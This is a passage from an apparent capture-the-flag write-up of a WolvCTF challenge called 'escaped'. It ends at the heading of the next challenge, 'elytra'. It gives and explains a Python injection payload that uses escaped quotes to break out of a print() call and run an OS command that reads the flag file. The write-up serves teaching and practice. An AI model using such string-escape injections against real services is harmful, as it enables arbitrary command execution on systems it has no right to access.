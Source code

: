 ![escaped](/assets/img/post_img/wolv_escaped2.png){: w="500" h="400"}

The payload to get the flag is `"\x22,__import__('os').system('cat flag.txt'),\x22"`. Here `\x22` is interpreted as `"` this will become `print("",__import__('os').system('cat flag.txt'),""`. Therefore it will prints the flag.

![escaped](/assets/img/post_img/wolv_escaped3.png){: w="500" h="400"}

> `Flag : wctf{m30w_uwu_:3}`

# elytra

![elytra](/assets/img/post_img/wolv_elytra.png){: w="400" h="300"}
